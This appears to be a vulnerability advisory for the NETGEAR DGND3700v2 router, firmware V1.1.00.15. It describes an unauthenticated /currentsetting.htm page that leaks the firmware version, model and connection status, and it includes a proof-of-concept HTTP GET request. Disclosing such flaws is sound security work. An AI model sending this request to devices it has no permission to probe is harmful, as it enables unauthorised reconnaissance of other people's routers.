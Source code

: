 # Overview

- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://kb.netgear.com/23510/DGND3700v2-Firmware-Version-1-1-00-15-NA-Users

# Affected version

DGND3700v2 V1.1.00.15_1.00.15NA

# Vulnerability description

A sensitive information disclosure vulnerability exists in the NETGEAR DGND3700v2 router (firmware V1.1.00.15_1.00.15NA), where the unauthenticated endpoint `/currentsetting.htm` exposes internal device data, including firmware version, model, region tag, internet connection status, etc. 

# Vulnerability details

mini_http is a lightweight HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 

Netgear uses mini_http to handle HTTP requests, when accessing currentsetting.htm, the global variable dword_41EF20 is set to 1, marking this page as a special page.

![图 0](img/dfa24485c189e931fab6c94a7c7660d397b379d358dc73ca3288cd7c53f152bd.png)  

# Poc

```http
GET /currentsetting.htm HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: */*
Referer: http://192.168.1.1/401_access_denied.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 1](img/d768b269bef893818daed76cfc59145a2b47fa99ee07371df3de06eed0a54f08.png)  
